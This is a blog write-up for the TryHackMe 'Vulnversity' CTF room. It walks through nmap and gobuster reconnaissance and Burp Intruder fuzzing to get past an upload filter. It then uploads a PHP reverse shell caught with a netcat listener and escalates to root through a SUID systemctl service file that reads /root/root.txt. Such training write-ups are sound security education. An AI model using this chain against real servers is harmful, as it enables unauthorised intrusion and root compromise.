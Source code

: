 ```yaml
---
title: Writeup for TryHackMe room - Vulnversity
author: 4n3i5v74
date: 2021-01-17 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, web]
pin: true
---
```


## [Vulnversity](https://tryhackme.com/room/vulnversity){:target="_blank"}

This room is about performing recon and web attacks.


## Task 2 - Reconnaisance

Using `nmap` as below, all info can be gathered for the task.
{% capture code %}nmap -Pn -T4 -sV --reason --open <ip>{% endcapture %} {% include code.html code=code lang="bash"%}


## Task 3 - Locating directories using Gobuster

Using `gobuster` and `dirb` wordlists, find the child directories under web root.
{% capture code %}gobuster dir -u http://<ip>:3333 -w /usr/share/wordlists/dirb/common.txt -q{% endcapture %} {% include code.html code=code lang="bash"%}

Use either `curl` or browser to load the pages from `gobuster` result and see if anything contains `upload` logic.
{% capture code %}curl http://<ip>:3333/<dir>/{% endcapture %} {% include code.html code=code lang="bash"%}


## Task 4 - Compromise the webserver

This task can be done using `burpsuite`.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload a file
- In `burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `burpsuite`, in `intruder` tab, and in `positions` tab, select `sniper` attack type, `clear §`, and `add §` to filename extension
- In `burpsuite`, in `intruder` tab, and in `payloads` tab, load `/usr/share/wordlists/SecLists/Fuzzing/extensions-most-common.fuzz.txt` and `start attack`
- Check the results for different response size to find which extensions are not blocked
- Quit `burpsuite` and reverse proxy setting in `firefox`

Download the [php reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"},and copy the file under extension `.phtml`. Edit the file and and change ip to local machine ip.

Start a netcat session to listen for reverse proxy connection.
{% capture code %}nc -lnvp 1234{% endcapture %} {% include code.html code=code lang="bash"%}

Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload payload file, and navigate to the url `http://<ip>:3333/<dir>/uploads/php-reverse-shell.phtml`. A reverse shell should have been created in the `netcat` listening terminal.

The `user` managing the web server and the `flag` can be retrieved from the shell.


## Task 5 - Privilege Escalation

Now the webserver is compromised and a shell access is gained. This task shows how to gain privilege escalation using `SUID`.

Find the commands which has `SUID` set. This allows normal user to gain root access temporarily. Any of the below command can be used to find the binaries allowing `SUID`.
{% capture code %}find / -perm /4000 2>&1 | grep -v “Permission denied”{% endcapture %} {% include code.html code=code lang="bash"%}
{% capture code %}find / -user root -perm -4000 -exec ls -ldb {} \;{% endcapture %} {% include code.html code=code lang="bash"%}

Since the binary found is `/bin/systemctl`, create a temporary `service file`, and run it, to gain `SUID` access.
{% capture code %}eop=$(mktemp).service{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}/bin/systemctl link $eop{% endcapture %} {% include code.html code=code lang="bash"%}

{% capture code %}/bin/systemctl enable --now $eop{% endcapture %} {% include code.html code=code lang="bash"%}


Capture the flag from the manipulated output file.
{% capture code %}cat /tmp/output{% endcapture %} {% include code.html code=code lang="bash"%}


